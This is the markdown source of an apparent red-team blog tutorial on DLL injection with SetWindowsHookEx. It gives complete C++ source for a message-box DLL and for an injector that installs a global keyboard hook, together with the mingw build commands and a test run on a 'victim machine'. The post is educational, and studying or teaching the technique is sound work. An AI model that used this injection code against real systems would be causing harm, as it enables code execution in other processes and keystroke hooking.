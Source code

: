 ```yaml
---
title:  "Classic DLL injection via SetWindowHookEx. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/25/2021-11-24_18-00.png"
categories: 
  - tutorial
tags:
  - dll injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![dll injection](/assets/images/25/2021-11-24_18-00.png){:class="img-responsive"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### Malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### Example. Simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](/assets/images/25/2021-11-25_15-35.png){:class="img-responsive"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](/assets/images/25/2021-11-25_15-36.png){:class="img-responsive"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](/assets/images/25/2021-11-25_15-40.png){:class="img-responsive"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](/assets/images/25/2021-11-25_15-44.png){:class="img-responsive"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](/assets/images/25/2021-11-25_15-46.png){:class="img-responsive"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](/assets/images/25/2021-11-25_15-48.png){:class="img-responsive"}    
 
compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![dll injection 8](/assets/images/25/2021-11-25_15-50.png){:class="img-responsive"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](/assets/images/25/2021-11-25_15-54.png){:class="img-responsive"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this article, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved 
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by 
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

![dll injection 10](/assets/images/25/2021-11-26_03-02.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*